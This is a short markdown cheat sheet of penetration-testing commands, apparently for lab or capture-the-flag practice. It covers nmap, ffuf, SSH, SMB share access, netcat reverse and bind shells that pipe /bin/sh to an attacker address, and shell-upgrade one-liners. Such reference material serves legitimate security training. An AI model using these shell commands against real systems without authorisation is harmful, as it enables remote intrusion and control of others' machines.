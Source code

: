 # NMAP
~~~
nmap -T4 -p- -A <target ip>
~~~
# Python Webserver
~~~
python3 -m http.server <port>
~~~

# Netcat
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
~~~
## Reverse Shell
### Attacker Listener
nc -nlvp 4444

### Target Connecting
nc 192.168.1.2 4444 -e /bin/sh

## Bind Shell
### Attacker Connecting
nc 192.168.1.2 4444

### Target Listener
nc -nvlp 4444 -e /bin/sh
~~~

# TTY Shell
~~~
## Using python
python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/bash")'

## Echo
echo 'os.system('/bin/bash')'

## sh
/bin/sh -i

## bash
/bin/bash -i

## Perl
perl -e 'exec "/bin/sh";'

## From within VI
:!bash
~~~
# System Info
~~~
uname -a
~~~
# Privilege Escalation Check
~~~
sudo -l
~~~
# OpenVPN
~~~
sudo openvpn <file>.vpn
~~~
# ffuf
~~~
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://<ip>/FUZZ
~~~
# SSH
~~~
#Specify specific file to authenticate
ssh -i <privatekeyfile> <username>@<ipaddress>
ssh -i id_rsa john@10.10.6.100
~~~
# smbmap
smbmap -H <targetip> -u 'ananymous'

# SMB
![afbeelding](https://github.com/user-attachments/assets/f0f99542-4082-4e29-8b88-f752714038f5)
https://www.computerhope.com/unix/smbclien.htm 
~~~
* You can make use of // or \\\\...\\
* Don't forget sudo if you want to download to your own folder
## List SMB shares
smbclient -L \\\\<target ip>\\

## Connect to SMB share
smbclient \\\\<target ip>\\<share>
smbclient \\\\<target ip>\\<share> -U <user>
smbclient \\\\<target ip>\\<share> -U <user>%<password>
smbclient \\\\<target ip>\\<share> -U <user> -p <port>

smbclient "//<target ip>/<share with space in name>" -U <domain>\\<username>"
smbclient "\\\\<target ip>\\<share with space in name>" -U <domain>\\<username>"

## Commands
cd
dir
put
more
get <remote-file> <local-file name>
exit
~~~
